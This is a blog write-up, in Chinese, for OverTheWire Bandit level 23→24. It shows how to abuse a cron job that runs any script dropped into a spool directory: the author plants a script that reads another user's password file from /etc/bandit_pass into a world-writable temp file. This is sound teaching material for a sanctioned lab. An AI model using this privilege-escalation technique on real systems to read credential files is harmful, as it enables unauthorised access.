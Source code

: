 ```yaml
---
title: "[OverTheWire] Bandit Level 23 → Level 24"
date: 2025-01-24T11:41:49+08:00
categories:
- OTW
- Bandit
thumbnailImagePosition: left
thumbnailImage: //cdn-1.webcatalog.io/catalog/overthewire/overthewire-icon-filled-256.png?v=1714775373043
---
```


<!--more-->

## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** */ for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Commands you may need to solve this level

- chmod
- cron
- crontab
- crontab(5) (use “man 5 crontab” to access this)

## My Answer (Step by step)

1. 連線到伺服器並登入

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

2. 透過 cd 與 ls 指令前往 /etc/cron.d 目錄查看有哪些排程工作

```bash
cd /etc/cron.d
ls -al
```

{{< alert info >}}
根據指令結果，發現有一個檔案 cronjob_bandit24 名稱跟下一等級相關
{{< /alert >}}

3. 透過 cat 指令將檔案 cronjob_bandit24 內容呈現出來

```bash
cat cronjob_bandit24
# @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
# * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

{{< alert info >}}
根據指令結果，發現此工作會執行 /usr/bin/cronjob_bandit24.sh
{{< /alert >}}

4. 透過 cat 指令將 sh script 呈現出來

```bash
cat /usr/bin/cronjob_bandit24.sh
# #!/bin/bash

# myname=$(whoami)

# cd /var/spool/$myname/foo
# echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
# for i in * .*;
# do
#     if [ "$i" != "." -a "$i" != ".." ];
#     then
#         echo "Handling $i"
#         owner="$(stat --format "%U" ./$i)"
#         if [ "${owner}" = "bandit23" ]; then
#             timeout -s 9 60 ./$i
#         fi
#         rm -f ./$i
#     fi
# done
```

{{< alert info >}}
根據指令結果，發現會執行並刪除所有在 /var/spool/bandit24/foo 的 script，所以我們可以在裡面寫一個獲得 bandit24 密碼的 script
{{< /alert >}}

5. 透過 mktemp 與 cd 指令產生暫存資料夾並進入它

```bash
mktemp -d
cd /tmp/tmp.2ZUZlHBJ3d
```

6. 透過 touch 指令產生腳本檔與密碼輸出檔，並透過 chmod 指令修改權限讓排程工作可以順利執行腳本與寫入密碼

```bash
touch a.sh
touch password.txt
chmod 777 -R /tmp/tmp.2ZUZlHBJ3d
```

7. 透過 vim, vi, nano 等指令編輯 a.sh script

```bash
nano a.sh
```

a.sh

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.2ZUZlHBJ3d/password.txt
```

8. 透過 cp 指令將腳本檔放入指定目錄，並等待它執行

```bash
cp a.sh /var/spool/bandit24/foo/a.sh
```

9. 約等一分鐘後，透過 cat 指令獲得 Level 24 密碼!

```bash
cat password.txt
```